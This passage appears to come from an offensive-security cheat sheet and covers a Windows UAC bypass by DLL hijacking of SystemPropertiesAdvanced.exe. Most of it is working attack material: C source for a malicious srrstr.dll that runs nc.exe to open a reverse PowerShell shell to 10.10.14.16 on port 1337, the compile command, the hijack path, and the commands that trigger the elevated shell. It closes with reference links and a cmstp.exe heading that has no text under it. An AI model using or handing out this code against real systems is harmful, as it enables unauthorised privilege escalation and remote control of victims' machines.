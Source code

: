 
## UAC Bypass



### SystemPropertiesAdvanced.exe


#### srrstr.dll

```c
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
	switch(dwReason) {
		case DLL_PROCESS_ATTACH:
			WinExec("C:\\Users\\<USERNAME>\\Documents\\nc.exe 10.10.14.16 1337 -e powershell", 0);
		case DLL_PROCESS_DETACH:
			break;
		case DLL_THREAD_ATTACH:
			break;
		case DLL_THREAD_DETACH:
			break;
	}

	return 0;
}
```

Compile on Kali:

```
root@kali:$ i686-w64-mingw32-g++ main.c -lws2_32 -o srrstr.dll -shared
```


#### DLL Hijacking

Upload `srrstr.dll` to `C:\Users\%USERNAME%\AppData\Local\Microsoft\WindowsApps\srrstr.dll` and check it:

```
PS > rundll32.exe srrstr.dll,xyz
```

Exec and get a shell ("requires an interactive window station"):

```
PS > cmd /c C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

* [egre55.github.io/system-properties-uac-bypass](https://egre55.github.io/system-properties-uac-bypass)
* [www.youtube.com/watch?v=krC5j1Ab44I&t=3570s](https://www.youtube.com/watch?v=krC5j1Ab44I&t=3570s)



### cmstp.exe
